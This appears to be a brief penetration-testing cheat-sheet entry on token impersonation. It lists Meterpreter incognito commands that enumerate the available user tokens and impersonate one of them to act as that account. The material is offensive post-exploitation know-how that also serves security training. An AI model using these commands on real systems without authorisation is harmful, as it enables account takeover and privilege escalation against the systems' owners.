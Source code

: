 # Token Impersonation

As a user on a machine, you can enumerate the currently available tokens and utilize one of the tokens to impersonate the token's user account. From then on, any actions you take you take **as that user account**.

## Impersonate user token with meterpreter/incognito

```bash
meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token $USERNAME
```
